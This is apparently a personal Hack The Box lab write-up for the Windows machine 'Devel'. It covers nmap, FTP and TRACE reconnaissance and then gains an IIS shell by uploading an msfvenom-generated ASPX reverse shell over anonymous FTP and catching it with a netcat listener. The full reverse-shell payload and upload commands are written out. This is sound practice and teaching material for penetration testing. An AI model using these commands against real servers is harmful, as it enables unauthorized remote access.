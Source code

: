 # Devel 10.10.10.5 - Windows

# 00 - Initial Attempt, 4/30/20

`nmap -sC -sV -oA devel 10.10.10.5`

```shell
# Nmap 7.80 scan initiated Thu Apr 30 22:43:34 2020 as: nmap -sC -sV -oA devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.033s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 30 22:43:45 2020 -- 1 IP address (1 host up) scanned in 11.65 seconds
```

#### Initial Ideas

Open Ports:

 - 21 FTP
  - Anonymous Login allowed? (code 230)
 - 80 IIS v7.5
  - FTP gives clue to iisstart.htm and welcome.png possibly hosted
  - Potentially risky method "TRACE" ?

Goals:

 - Look into anonymous FTP login situation
 - WTF is HTTP `TRACE` method?
 - Any vulns for IIS 7.5?

#### FTP Port 21

 - FTP worked for user `anonymous` and password `none@na.com` or blank

```shell
thoth@kali:~/Projects/htb-notes/machines/Devel/dumps$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:thoth): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```

 - Within the FTP found the following file structure:

```shell
aspnet_client/
  ..
  system_web/
    ..
    2_0_50727/
welcome.png
iisstart.htm
```

Directories seem to lead nowhere, can't see any files. Poked around some FTP commands, didn't find anything. Might be more to explore here with my lack of FTP command knowledge. Can we probe for more user accounts? I am able to upload files with `send`... hmm. Perhaps look into IIS file structure and if I can work toward RCE via this?

#### Web Server Microsoft IIS on Port 80

This is version 7.5 of IIS, which was released with Windows 7 and Windows Server 2008 R2. Can't find exact lifetime dates.

 - HTTP `TRACE` led me to [this Cross-Site Tracing paper](https://www.cgisecurity.com/whitehat-mirror/WH-WhitePaper_XST_ebook.pdf)

 - Attempting the basic echo they illustrate seems to fail. Perhaps I don't know how to issue telnet properly. Tried to curl it, that didn't work either.

```shell
thoth@kali:~/Projects/htb-notes/machines/Devel/dumps$ telnet 10.10.10.5 80
Trying 10.10.10.5...
Connected to 10.10.10.5.
Escape character is '^]'.
TRACE / HTTP/1.1
Host: foo.bar
X-Header: test
^]
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=us-ascii
Server: Microsoft-HTTPAPI/2.0
Date: Mon, 04 May 2020 11:43:37 GMT
Connection: close
Content-Length: 339
```

```shell
thoth@kali:~/Projects/htb-notes/machines/Devel/dumps$ curl -v -X TRACE -H "Host: foo.bar" -H "X-Header: test" 10.10.10.5
*   Trying 10.10.10.5:80...
* TCP_NODELAY set
* Connected to 10.10.10.5 (10.10.10.5) port 80 (#0)
> TRACE / HTTP/1.1
> Host: foo.bar
> User-Agent: curl/7.68.0
> Accept: */*
> X-Header: test
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 501 Not Implemented
< Content-Type: text/html
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Mon, 04 May 2020 11:41:57 GMT
< Content-Length: 1508

<html removed>
```
 - The paper goes on to describe using JS to grab response data, I tried:

 ```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
  </head>
  <body>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('TRACE', 'http://10.10.10.5/', false);
      xhr.send(null);
      if(200 == xhr.status)
        alert(xhr.responseText);
    </script>
  </body>
</html>
```
... the result being blocked by the browser with `SecurityError: The operation is insecure.`. We're trying old shit.

#### Watched Ippsec, CyberMentor

 - I saw the proper entry point, I was not aware of the `msfvenom` tool to generate malware in specific formats. I see now we can easily generate exploit scripts to place on vulnerable servers, even without knowing how the scripts themselves work.

 - Going to try a non-meterpreter route first. Issuing a listen on netcat: `nc -lvnp 7680`

 - Generating attack script with `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=7680 -f aspx > shell.aspx`

 - Upload via `send` on the anonymous FTP access

 - Execute the script by navigating browser to `http://10.10.10.5/shell.aspx`

```shell
thoth@kali:~/Projects/htb-notes/machines/Devel$ nc -lvnp 7680
listening on [any] 7680 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49178
```

This failed. Just hung there, several times. Decided to try a different exploit:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=7680 -f aspx > shell.aspx`

 - Upload to FTP. Re-run `nc -lvp 7680`, fire it off, and... success:

```powershell
thoth@kali:~/Projects/htb-notes/machines/Devel$ nc -lvp 7680
listening on [any] 7680 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```

Ok, so I'm in webserver user-space. Privilege escalation is next but let's see if we can find info first.